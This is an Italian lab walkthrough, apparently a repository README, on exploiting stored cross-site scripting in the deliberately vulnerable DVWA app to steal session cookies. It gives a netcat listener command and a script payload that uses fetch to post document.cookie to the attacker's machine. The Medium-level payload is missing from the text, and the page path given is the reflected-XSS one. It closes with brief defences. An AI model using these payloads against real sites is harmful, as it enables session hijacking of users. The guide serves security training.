

# **Guida: Exploit XSS Persistente su DVWA (Low e Medium)**

Questa guida illustra come sfruttare una vulnerabilità di **Cross-Site Scripting (XSS) Persistente** sulla piattaforma **DVWA (Damn Vulnerable Web Application)** in modalità **Low** e **Medium**. L'obiettivo è simulare il furto di cookie di sessione inviandoli a un server sotto il nostro controllo.

---

## **Requisiti**

1. **DVWA Installato** e configurato.
2. **Livelli di Sicurezza** impostati su **Low** e **Medium**.
3. **Server di Ascolto** su Kali Linux configurato per ricevere i cookie sulla porta **4444**.
4. Indirizzi IP:
   - **Kali Linux**: `192.168.50.165`
   - **Metasploitable**: `192.168.50.3`

---

## **Parte 1: XSS Persistente in Modalità Low**

### **Obiettivo**
Iniettare uno script malevolo nella web application DVWA per inviare i cookie della sessione al nostro server di ascolto.

### **Passaggi**

1. **Configura il Server di Ascolto su Kali Linux**:
   - Avvia Netcat per ricevere i cookie sulla porta 4444:
     ```bash
     nc -lvnp 4444
     ```

2. **Accedi a DVWA**:
   - Vai alla sezione **XSS Persistente**:
     ```
     http://192.168.50.3/dvwa/vulnerabilities/xss_r/
     ```

3. **Inserisci il Payload**:
   Usa il seguente script JavaScript nel campo vulnerabile (esempio: un campo commento):
   ```html
   <script>
     fetch('http://192.168.50.165:4444', {
       method: 'POST',
       body: document.cookie
     });
   </script>
   ```

4. **Esegui il Payload**:
   - Invia il payload premendo **Submit**.
   - Ogni volta che la pagina viene caricata, lo script invierà i cookie della sessione al server di ascolto.

5. **Verifica i Cookie su Kali Linux**:
   - Sul terminale di Kali Linux, dovresti vedere i cookie della sessione, ad esempio:
     ```
     PHPSESSID=abcdef1234567890; security=low
     ```


---

## **Parte 2: XSS Persistente in Modalità Medium**

### **Obiettivo**
Aggirare i filtri di input e sfruttare la vulnerabilità XSS per ottenere i cookie della sessione.

### **Passaggi**

1. **Configura il Server di Ascolto su Kali Linux**:
   - Utilizza lo stesso comando di Netcat:
     ```bash
     nc -lvnp 4444
     ```

2. **Accedi a DVWA**:
   - Vai alla sezione **XSS Persistente**:
     ```
     http://192.168.50.3/dvwa/vulnerabilities/xss_r/
     ```

3. **Inserisci il Payload Alternativo**:
   Poiché `<script>` potrebbe essere filtrato, utilizza il seguente payload:
   ```html
   
   ```

4. **Esegui il Payload**:
   - Invia il payload premendo **Submit**.
   - Ogni volta che un utente carica la pagina, l'evento `onerror` si attiverà e invierà i cookie al server di ascolto.

5. **Verifica i Cookie su Kali Linux**:
   - Controlla il terminale e verifica i cookie ricevuti:
     ```
     PHPSESSID=abcdef1234567890; security=medium
     ```



---

## **Spiegazione dei Payload**

### **Payload in Modalità Low**
- `<script>`: Inietta uno script JavaScript nella pagina vulnerabile.
- `document.cookie`: Recupera i cookie della sessione della vittima.
- `fetch`: Invia i cookie al server dell'attaccante tramite una richiesta HTTP POST.

### **Payload in Modalità Medium**
- ``: Un'immagine che non esiste attiva l'evento `onerror`.
- `onerror`: Contiene lo script malevolo per inviare i cookie.
- `fetch`: Come sopra, invia i cookie al server.

---

## **Considerazioni di Sicurezza**

Per proteggere le applicazioni da attacchi XSS:

1. **Sanitizzazione dell'Input**:
   - Filtra e valida tutti i dati forniti dagli utenti per evitare l'iniezione di codice malevolo.
2. **Cookie HTTPOnly**:
   - Imposta i cookie di sessione come **HTTPOnly** per impedire l'accesso tramite JavaScript.
3. **Content Security Policy (CSP)**:
   - Configura una CSP per limitare l'esecuzione di script non autorizzati.

---

## **Conclusione**

Abbiamo dimostrato come sfruttare una vulnerabilità XSS Persistente su DVWA in modalità **Low** e **Medium** per rubare cookie di sessione. Questa guida evidenzia l'importanza di implementare misure di sicurezza per prevenire attacchi XSS.

Se hai bisogno di ulteriori chiarimenti o supporto, non esitare a contattarci! 🚀
